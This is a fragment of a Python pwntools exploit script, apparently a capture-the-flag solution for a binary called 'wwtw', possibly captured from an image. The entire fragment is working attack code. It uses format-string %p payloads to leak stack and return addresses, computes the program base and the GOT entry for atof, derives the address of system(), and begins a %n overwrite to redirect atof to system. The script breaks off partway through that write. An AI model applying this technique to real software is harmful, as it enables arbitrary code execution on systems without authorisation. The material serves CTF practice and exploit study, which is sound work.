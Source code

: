 ```python wwtw_exp.py
print t.recvuntil("Selection: ")
log.info("writing fd back...")
t.send("11111111\x03\n") # write the fd back to 3 so the rest of our input won't get into sub_BCB()
print t.recvuntil("Selection: ")
t.sendline("3")
t.recvuntil("Coordinates: ")
log.success("choice 3 enabled success")

x = 51.492137
y = -0.192878
pass_xy = str(x)+','+str(y)

payload = pass_xy

# constructing format string payload
for i in xrange(1, 20):
    a = ".%"+str(i)+"$p"
    payload += a

log.info("sending payload...")
t.sendline(payload)
s = t.recvuntil("Coordinates: ")
print s
nptr = int(s.split(".")[13], 16) # get the stack address
ret_addr = nptr + 0x406 # return address' location

log.success("nptr: "+ hex(nptr))
log.success("ret: "+ hex(ret_addr))

payload = pass_xy
payload += "A" # padding
payload += p32(ret_addr)
payload += ".%20$p"
payload += ".%20$s." # leak the return address
t.sendline(payload)

s = t.recvuntil("Coordinates: ")
print s
WTF = u32(s.split(".")[6]) # return address
text_base = WTF - 0x1491
atof_got = text_base + 0x5080
log.success("text_base: "+ hex(text_base))
log.success("atof_got: "+ hex(atof_got))

payload = pass_xy
payload += "A"
payload += p32(atof_got)
payload += ".%20$p"
payload += ".%20$s."  # leak atof's got
t.sendline(payload)

s = t.recvuntil("Coordinates: ")
print s
atof_addr = u32(s.split(".")[6][0:4])
system_addr = atof_addr + 59728
log.success("atof addres: "+ hex(atof_addr))
log.success("system addres: "+ hex(system_addr))

byte1 = system_addr & 0xFF
byte2 = (system_addr & 0xFFFF00) >> 8

# use %n to overwrite atof's got entry into system's address
fmt1 = byte1 - 28
```